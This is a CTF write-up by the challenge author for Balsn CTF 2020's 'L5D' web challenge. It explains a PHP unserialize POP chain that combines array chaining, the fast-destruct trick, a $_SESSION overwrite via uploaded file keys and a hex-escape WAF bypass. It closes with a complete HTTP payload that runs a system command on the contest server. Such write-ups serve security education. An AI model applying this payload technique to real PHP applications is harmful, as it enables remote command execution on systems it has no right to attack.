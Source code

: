# Balsn CTF 2020 

# L5D

- Difficulty: ★★
- Type: Web
- Solved: 17 / 490
- Tag: Warmup, PHP, Unserialize, POP chain

## Description

「Taking L5D was a profound experience, one of the most important things in my life.」

Try this new Unserialize-Oriented Programming System a.k.a. L5D !

http://l5d.balsnctf.com:12345/index.php

PHP Version: 7.0.33

Author: kaibro


## Source Code

- [L5D](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2020/src/)

Easter egg: My source code is just 420 line ;p

## Solution


In this challenge, there are 5 classes that contain some magic methods like `__wakeup`, `__destruct`.

And we have a arbitrary unserialize entry point:

```php
$wtf = waf($_GET{'?'}) ? $_GET['?'] : (finalize() && die("Nice try!"));
if($goodshit = @unserialize($wtf)) {
    $is_unser_finished = true;
}
```

So our target is to chain these classes' magic method to read the `/flag` file.

And most of the classes didn't have any property (only global variable), so it is hard to do pop chain (Property Oriented Programming) exploit.

But we can use `Array` to chain these classes together, like this:

```
Array(classA, classB, classC, ...);
```

It will unserialize multiple classes at the same time, and then the magic methods of these classes will be called.

Next, we should find a path to read flag.

The `L5D_Command` class is an attractive target, its `__destruct()` will run system command with global variable `cmd`.

And the `L5D_ResetCMD` class can reset the `cmd` variable by `new_cmd` property, but we should set our `$_SESSION['name']` to `wubalubadubdub` first:

```php
if($_SESSION['name'] === 'wubalubadubdub') {
    $cmd = $this->new_cmd;
}
```

In `L5D_Login` class, you can set the right session name, but you need to know the flag content first. It is impossible. We should find another way to exploit.

Let's take a look at the `L5D_Upload` class, this class has an obvious variable override vulnerability:

```php
foreach ($_FILES as $key => $value)
    $GLOBALS[$key] = $value;
```

We can overwrite any global variable to a file array (with some information that we uploaded).

So we can use this vulnerability to override the `$_SESSION` variable by upload a file with key `_SESSION`.

And everybody knows that `$_FILES`'s value looks like:

```
Array('name' => 'xxx', 'tmp_name' => 'xxx', 'size' => 'xxx' ...)
```

It can just overwrite the `$_SESSION['name']`, and the `name` is our uploaded filename!

(Note: you should upload a valid image file, or it will call `finalize()` to destroy your `$_SESSION` and `$cmd`)

So final exploit chain is:

1. `L5D_Upload` overwrite `$_SESSION['name']` to `wubalubadubdub`
2. `L5D_ResetCMD` reset `$cmd` to `cat /flag`
3. `L5D_Command` call `system($cmd)`

But there is still a small problem, lots of `__wakeup()` function will destroy your session or some important global variable in the process of unserialization. These variables will make your exploit failed.

An easy way to control order of `__wakeup()` and `__destruct()` is to use the [Fast Destruct](https://github.com/ambionics/phpggc#fast-destruct) trick.
It means that if you define two same key in an array, the first one object will be destroyed (it will call `__destruct()`) in the process of deserilization.
So you don't need to wait until the program ends to call `__destruct()`.

Finally, one of a valid exploit chain looks like this:

```
Array(0=>L5D_Command, 1=>L5D_ResetCMD, 2=>L5D_Upload, 2=>L5D_SayMyName, 3=>L5D_Login, 3=>L5D_SayMyName, 1=>L5D_SayMyName)
```

I use a useless `L5D_SayMyName` class to destroy other object with same key.

So the executing order of above exploit chain is:

1. `L5D_Command` wakeup
2. `L5D_ResetCMD` wakeup
3. `L5D_Upload` wakeup
4. `L5D_SayMyName` wakeup and `L5D_Upload` destroy
5. `L5D_Login` wakeup
6. `L5D_SayMyName` wakeup and `L5D_Login` destroy
7. `L5D_SayMyName` wakeup and `L5D_ResetCMD` destroy
8. Program End
9. `L5D_Command` destroy and other `L5D_SayMyName` destroy

And the final part, `waf()` function will block `*` character.
We should bypass this restriction to control the `$new_cmd` variable in `L5D_ResetCMD` class.

There is a small [trick](https://github.com/ambionics/phpggc#ascii-strings) can help us. If we change the type specifier of string from `s` to `S`, then we can use `\xx` hex representation in serialization data.

`s:10:"%00*%00new_cmd"` => `S:10:"\00\2A\00new_cmd%"`

Final payload:

```
POST /?%3f=a:7:{i:0;O:11:%22L5D_Command%22:0:{}i:1;O:12:%22L5D_ResetCMD%22:1:{S:10:%22%5C00%5C2A%5C00new_cmd%22;s:9:%22cat%20/flag%22;}i:2;O:10:%22L5D_Upload%22:0:{}i:2;O:13:%22L5D_SayMyName%22:0:{}i:3;O:9:%22L5D_Login%22:0:{}i:1;O:13:%22L5D_SayMyName%22:0:{}i:3;O:13:%22L5D_SayMyName%22:0:{}} HTTP/1.1
Host: l5d.balsnctf.com:12345
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148
Content-Type: multipart/form-data; boundary=---------------------------133915844616073813622061755521
Content-Length: 840
Cookie: PHPSESSID=dq2t165cscptkm24vb57e5f872
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="l5d_file"; filename="php.jpg"
Content-Type: image/jpeg

{IMAGE DATA}
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"
Content-Type: image/jpeg

aaa
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------133915844616073813622061755521--
```

(Note: This is not the only one exploit chain :D)

<br>
<br>


BTW

Actually, this is just a warmup challenge compared to other web challenge.

But some china teams said this challenge is too easy in the feedback.

Maybe I should prepare a more complex (or harder) warmup challenge next year XD? (flee


## Writeups

- [The Flat Network Society
](https://github.com/TFNS/writeups/tree/master/2020-11-14-BalsnCTF/l5d)
- [Super Gusser](https://github.com/Super-Guesser/ctf/tree/master/BalsnCTF2020/web/L5D)
- [安全客](https://www.anquanke.com/post/id/222675#h2-1)
